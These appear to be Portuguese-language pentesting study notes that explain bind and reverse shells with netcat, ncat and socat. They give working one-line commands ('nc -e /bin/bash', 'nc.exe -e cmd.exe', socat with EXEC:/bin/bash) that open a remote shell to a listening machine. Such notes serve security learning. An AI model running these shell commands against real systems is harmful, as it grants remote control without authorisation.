 ![image.png](attachment:d66ce77c-732c-42f7-92d5-784ec3279ff6:image.png)

Exemplo Bind shell utilizando o netcat:

```bash
#(linux)
nc -lvnp 5050 -e /bin/bash
#(windows)
nc.exe -lvnp 5050 -e cmd.exe

	# -e : executar um comando assim que fazer a conexão
```

Assim que realziar a conexão você recebe o executado pelo comando, nesse caso, um shell/cmd

### Reverse shell

![image.png](attachment:72b2ba5a-38c1-4d0b-b176-1544993fb05f:image.png)

Exemplo de Reverse shell usando netcat:

```bash
 #deixar na sua própia máquina escutando para enviar o shell para ela
 nc -lvnp 5050

#dentro da máquina alvo
#(windows)
nc.exe -vn (ip da maquina que esta escutando) 5050 -e cmd.exe

#(linux)
nc (ip da maquina que esta escutando) 5050 -e /bin/bash
```

# Ncat X Netcat

---

O ncat é uma espécie de “evolução” do netcat, com algumas funções adicionais, como criptografia por exemplo, devido a suas constantes atualizações.

Para mais informações gerais, uso. Consultar: [https://nmap.org/ncat/](https://nmap.org/ncat/)

# Socat

---

O socat é uma outra ferramenta Swiss Army Knife, assim como o netcat e o ncat

Usage:

```bash

# - : utilizado pois o socat precisa de dois ip's porém com o - ele necessita de 
# 1 apenas

socat - tcp4-listen:2222
#ouvir na porta 2222 com o protocolo tcp

socat - udp4-listen:2222
#ouvir na porta 2222 com o protocolo udp

socat - tcp4:(ip da maquina escutando):(porta em que esta escutando) EXEC:/bin/bash
#EXEC : similiar ao -e do netcat, usado para enviar comandos e ações

```
